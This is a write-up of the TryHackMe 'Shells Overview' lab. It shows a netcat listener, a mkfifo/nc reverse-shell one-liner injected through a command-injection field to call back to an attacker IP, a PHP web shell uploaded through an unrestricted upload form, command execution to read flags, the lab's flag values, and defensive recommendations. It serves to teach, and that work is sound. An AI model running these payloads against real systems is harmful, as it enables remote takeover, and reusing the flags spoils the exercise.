







# Shells Overview - TryHackMe

**Difficulty:** Easy
**OS:** Linux
**Date:** March 31, 2026
**Time:** ~1h15
**Room link:** https://tryhackme.com/room/shellsoverview

---

## 🎯 Objective

Understand the different types of shells used in cybersecurity: Reverse Shell, Bind Shell and Web Shell.

---

## 📚 Introduction

A shell in cybersecurity allows an attacker to remotely control a compromised system.

This room covers:
- **Reverse Shell**: The target connects back to the attacker
- **Bind Shell**: The attacker connects to the target
- **Web Shell**: Malicious script hosted on a web server



---

## 🔄 Task 8 - Practical Task

### Setup - Netcat Listener

```bash
nc -lvnp 4444
```


### Available ports on the target machine

- `10.129.181.110:8080` → Landing page
- `10.129.181.110:8081` → Command injection (reverse shell)
- `10.129.181.110:8082` → Unrestricted file upload (web shell)

---

## 💥 Reverse Shell - Command Injection (Port 8081)

### Web Interface



### Payload Used

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.129.107.46 4444 >/tmp/f
```

Payload injected into the vulnerable input field of the application on port 8081.

### Connection Received

```
Listening on 0.0.0.0 4444
Connection received on 10.129.181.110 57326
sh: 0: can't access tty; job control turned off
$
```



### System Navigation

```bash
$ ls
$ whoami
ww-data
$ cd /
$ ls
bin  boot  dev  etc  flag.txt  home  lib  lib64  media  mnt ...
```



### Retrieving Flag 1

```bash
$ cat /flag.txt
```



**Flag 1:** `THM{0f28b3e1b00becf15d01a1151baf10fd713bc625}`

---

## 🌐 Web Shell - Unrestricted File Upload (Port 8082)

### Creating the Web Shell

Creating a `shell.php` file:

```php
<?php system($_GET['cmd']); ?>
```





### Uploading the Web Shell

Navigating to `http://10.129.181.110:8082` → "Upload Your CV"

Uploading `shell.php` via the unrestricted file upload vulnerability.

### Command Execution

```
http://10.129.181.110:8082/uploads/shell.php?cmd=cat%20/flag.txt
```

**Flag 2:** `THM{202bb14ed12120b31300cfbbbdd35998786b44e5}`

---

## 📚 What I Learned

1. **Reverse Shell vs Bind Shell**:
   - Reverse shell: target → attacker (bypasses outbound firewalls)
   - Bind shell: attacker → target (used when no outbound connection is possible)

2. **Command Injection**: Exploiting unsanitized input to execute system commands

3. **Web Shell**: Malicious script enabling command execution over HTTP (`$_GET['cmd']`)

4. **Netcat**: Versatile tool for creating listeners and establishing connections

5. **File Upload Vulnerability**: An upload without extension validation allows dropping executable code

---

## 🛠️ Tools Used

- Netcat (listener)
- Bash (reverse shell payload)
- PHP (web shell)

---

## 💡 Security Recommendations

To protect against shells:

1. **Input Validation**: Sanitize all user inputs
2. **File Upload Restrictions**:
   - Whitelist allowed extensions
   - Verify actual file content (magic bytes)
   - Store uploads outside the web root
3. **Firewall**: Block unauthorized outbound connections from web servers
4. **WAF**: Detect command injection patterns
5. **Least Privilege**: Limit web process permissions
6. **Monitoring**: Alert on suspicious connections and system command execution

---

*Writeup by 0xMalt - TryHackMe Profile: https://tryhackme.com/p/0xMalt*
